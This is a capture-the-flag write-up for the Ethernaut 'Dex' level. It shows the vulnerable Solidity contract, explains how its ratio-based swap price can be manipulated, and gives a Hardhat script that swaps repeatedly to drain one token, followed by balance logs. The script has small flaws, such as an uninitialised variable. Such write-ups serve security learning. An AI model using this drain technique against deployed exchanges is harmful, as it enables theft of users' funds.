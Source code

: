 # Ethernaut Dex solution
## Problem
The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Explaination
+ So the website already have bonus suggest what should care about. 
+ But the thing come very first to me is the line "How is the price of the token calculated?".
+ After read that, I let myfocus to the getSwapPrice() which have price formula base on the ratio of balance between the total balance of from and to.
+ So I make a formula to make sure I right, the price is amount * balanceTo / balanceFrom. In order to drain fully 1 token so the amount (in) must >= amount out.
+ It come to the full formula amount * balanceTo / balanceFrom >= amount or we can say balanceTo >= balanceFrom. 
+ And the larger diff of ratio is, the more amount out we get.

## Solution 
So when we break all the information we need, the solution is really clearly :
1. After approve, We change all balance from token1 -> token2. So balance now 0 - 20. And contract balance is 110 90. Right here we get the ratio diff.
2. Send all the token2 -> token1. Right here we on the way to drain all the token in contract. Cause [20*110/90] = 24, we send 20 but get 24.
3. Replay step 2 until we can't play anymore.
4. Calc a litte bit and send swap the last time to achieve the goal.

## Code

Assign variable needed
```javascript
const DexAddress = "0x6BA175f02a98709D04D66D26b14376b35e5a1cE4";
const DEXContract = await hre.ethers.getContractAt("Dex", DexAddress);

[signer] = await hre.ethers.getSigners();
signerAddress = await signer.getAddress();

console.log("1/ Approving");
const approveTX = await DEXContract.connect(signer).approve(
    DexAddress,
    2000
);
await approveTX.wait();

let fromAddress = await DEXContract.token1();
let toAddress = await DEXContract.token2();
```
---
Assign wallet balance, and contract balance + function to ressign and log
```javascript
let fromBalance, toBalance;
let contractFromBalance, contractToBalance;
async function reassignBalance() {
    fromBalance = await DEXContract.balanceOf(fromAddress, signerAddress);
    toBalance = await DEXContract.balanceOf(toAddress, signerAddress);

    contractFromBalance = await DEXContract.balanceOf(
        fromAddress,
        DexAddress
    );
    contractToBalance = await DEXContract.balanceOf(toAddress, DexAddress);
}
function logBalance() {
    console.log(fromBalance.toString(), toBalance.toString());
    console.log(
        contractFromBalance.toString(),
        contractToBalance.toString()
    );
}
await reassignBalance();
logBalance();
```
---
Transfer like the solution above until contract out of money ( in my code it run till error :D )
```javascript
while (contractFromBalance > 0 && contractToBalance > 0) {
    if (transferFromValue > fromBalance) {
        transferFromValue = fromBalance;
    }
    logBalance();

    const swapTX = await DEXContract.connect(signer).swap(
        fromAddress,
        toAddress,
        transferFromValue
    );
    await swapTX.wait();
    [fromAddress, toAddress] = [toAddress, fromAddress];
    await reassignBalance();
    transferFromValue = fromBalance;
}
console.log("End");

await reassignBalance();
logBalance();
```
### Log
```
10 10
100 100
```
```
Start
10 10
100 100
```
```
20 0
90 110
```
```
24 0
86 110
```
```
30 0
80 110
```
```
41 0
69 110
```
```
65 0
45 110
```

At the end I swap by hand 45 token. 45*110/45 = 110. Exact the amount in the contract have.
The final log is:
```
20 110
90 0
```

